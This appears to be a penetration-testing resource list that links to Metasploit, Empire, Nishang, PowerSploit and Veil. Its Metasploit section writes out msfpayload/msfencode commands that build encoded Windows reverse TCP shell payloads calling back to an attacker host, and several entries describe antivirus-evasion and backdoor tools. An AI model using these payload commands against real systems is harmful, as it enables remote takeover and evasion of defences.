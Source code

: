 ##Frameworks and Methodologies of all kinds!




PTES
OSSTMM


Metasploit Framework

[What is Metasploit?](https://www.youtube.com/watch?v=TCPyoWHy4eA)

[Metasploit - github.io](https://metasploit.github.io/)
* It is the official “reference” page for the metasploit framework

[Facts and Myths about AV Evasion with the Metasploit Framework](http://schierlm.users.sourceforge.net/avevasion.html)

[MSF/Meterpreter cmd reference](http://hacking-class.blogspot.com/2011/08/metasploit-cheat-sheet-metasploit.html)

[Empire - Powershell Post-Exploitation Agent](http://www.powershellempire.com/)
* Empire is a pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture. Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.



http://it-ovid.blogspot.com/2012/02/metasploit-and-meterpreter.html

Metasploit Framework - Payload Encoding
List all available payloads and search for windows reverse tcp shellsmsfpayload -l | grep windows | grep shell | grep reverse | tcp

List available encoders 
msfencode -l 

Reverse self-contained (not staged) command shell: 341 bytes 
msfpayload windows/shell_reverse_tcp LHOST=192.168.6.1 R | msfencode -e x86/shikata_ga_nai -b '\x00\x0a\x0b\x0d\x90' -t c

msfpayload windows/shell_reverse_tcp LHOST=192.168.6.1 R | msfencode -e x86/shikata_ga_nai -b '\x00\x0a\x0b\x0d\x90' -t c

Windows Command Shell, reverse Ordinal TCP Stager (Np NX or Win7) 
Use msf multi/handler to listen and upload remainder of the shellcode (stage 2)

msfpayload windows/shell/reverse_ord_tcp LHOST=192.168.6.1 R | msfencode -e x86/shikata_ga_nai -b '\x00\x0a\x0b\x0d\x90' -t c
Generic Syntax

msfpayload <payload> <options> <output>| ./msfencode -e <encoder> -b <bad bytes> -t <output format>

Contributing to Metasploit


[Writing an Exploit](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit)
[Writing an Exploit for Metasploit by Corelan](https://www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/)
[Writing an Auxiliary module](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-auxiliary-module)

[Writing a Post-Exploitation module](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-a-post-module)
[Style tips for writing a Metasploit module](https://github.com/rapid7/metasploit-framework/wiki/Style-Tips)



[Metasploit Framework Module Github](https://github.com/rapid7/metasploit-framework/tree/master/modules)
* Easiest way of seeing the most current listing of any modules.
* All are Github pages for the Metasploit project


*  [Metasploit Framework Wiki](https://github.com/rapid7/metasploit-framework/wiki)
*  [Auxiliary Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary)
*  [Auxiliary Module Fuzzers](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/fuzzers)
*  [Denial-of-Service Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/dos)
*  [Auxiliary Gather Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/gather)
*  [Auxiliary Scanner Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/scanner)
*  [Server Auxiliary Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/server)
*  [Auxiliary Spoofing Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/spoof)
*  [Auxiliary VOIP Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/voip)
*  [Encoder Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/encoders)
*  [Payloads - Singles](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles)
*  [Payloads - Singles - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles/windows)
*  [Payloads - Singles - Linux x86](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/singles/linux/x86)
*  [Payloads - Stagers](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers)
*  [Payloads - Stagers - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers/windows)
*  [Payloads - Stagers - Linux x86](https://github.com/rapid7/metasploit-framework/tree/master/modules/payloads/stagers/linux/x86)
*  [Exploits](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits)
*  [Exploits - Windows](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/windows)
*  [Exploits - Linux])https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/linux)
*  [Exploits - Multi-Platform](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/multi)
*  [Post-Exploitation Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post)
*  [Post-Exploitation Windows Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post/windows)
*  [Post-Exploitation Linux Modules](https://github.com/rapid7/metasploit-framework/tree/master/modules/post/linux)








###Nishang Framework

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security and during Penetraion Tests. Nishang is useful during various phases of a penetration test and is most powerful for post exploitation usage. It was made by https://twitter.com/nikhil_mitt


###PowerSploit Framework

Github

Windows exploitation framework composed of Powershell modules






###Veil Framework
[Veil-Evasion](https://www.github.com/Veil-Framework/Veil-Evasion/) * Veil-Evasion is a tool to generate payload executables that bypass common antivirus solutions. 
[Veil-Ordnance](https://github.com/Veil-Framework/Veil-Ordnance)
* Veil-Ordnance is a tool that can be used to quickly generate valid stager shellcode.


[Veil-Framework](https://github.com/Veil-Framework/Veil)
* 


[Veil-Catapult](https://www.veil-framework.com/category/veil-catapult/)
* Veil-Catapult is a payload delivery tool that integrates with Veil-Evasion for payload generation. 
* [Github](https://github.com/Veil-Framework/Veil-Catapult/)



[Veil-Pillage](https://github.com/Veil-Framework/Veil-Pillage)
Veil-Pillage is a modular post-exploitation framework that integrates with Veil-Evasion for payload generation.

[Veil Power-View[](https://github.com/Veil-Framework/Veil-PowerView/)
* Veil-PowerView is a powershell tool to gain network situational awareness on Windows domains. Veil-PowerView’s code is located at 
[DomainTrustExplorer](https://github.com/sixdub/DomainTrustExplorer)
* Python script for analyis of the "Trust.csv" file generated by Veil PowerView. Provides graph based analysis and output. The graph output will represent access direction (opposite of trust direction) 

Veil Tutorials:
* [Framework Usage Tutorial](https://www.veil-framework.com/veil-tutorial/)
* [Payload Creation Tutorial](https://www.veil-framework.com/tutorial-veil-payload-development/)
* [Customizing backdoors with Veil](https://www.veil-framework.com/how-to-customize-backdoor-factory-payloads-within-veil/)
* [Creating a windows payload](https://www.youtube.com/watch?v=v1OXNP_bl8U)

More videos: 
https://www.veil-framework.com/guidesvideos/



Talks on Veil 

[Adventures in Asymmetric Warfare by Will Schroeder](https://www.youtube.com/watch?v=53qQfCkVM_o)